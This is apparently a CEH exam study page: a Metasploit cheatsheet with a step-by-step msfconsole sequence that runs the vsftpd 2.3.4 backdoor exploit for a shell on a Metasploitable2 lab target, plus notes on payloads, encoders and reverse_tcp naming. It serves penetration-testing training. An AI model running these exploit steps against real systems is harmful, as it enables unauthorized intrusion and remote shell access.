

repository: morandeirachema/CyberCerts · page: certs/ceh/cheatsheets/metasploit/index.html · generator: mkdocs

# Metasploit Cheatsheet

Framework docs: https://docs.metasploit.com/ · Practice target: Metasploitable2 `192.168.56.20`.

## msfconsole workflow

```bash
msfconsole -q                      # quiet start
db_status                          # confirm the postgres db is connected
workspace -a ceh                   # isolate this engagement's data

search type:exploit vsftpd         # find a module
use exploit/unix/ftp/vsftpd_234_backdoor
info                               # read before you run
show options
set RHOSTS 192.168.56.20
set LHOST 192.168.56.10            # your Kali
show payloads
set PAYLOAD cmd/unix/interact
check                              # (if supported) verify vuln without exploiting
run                                # or: exploit
```

## Module types (know these)

| Type | Purpose |
|---|---|
| exploit | Delivers a payload via a vulnerability |
| payload | Code that runs on the target (shell, meterpreter) |
| auxiliary | Scanners, fuzzers, DoS, enum (no payload) |
| post | Post-exploitation (loot, pivot, persist) |
| encoder | Obfuscate payloads (e.g. shikata_ga_nai) |
| nops | Padding / NOP sleds |

Payload naming: **staged** uses `/` (e.g. `windows/meterpreter/reverse_tcp` — sends a small stager then the rest); **stageless/inline** uses `_` (e.g. `windows/meterpreter_reverse_tcp`).
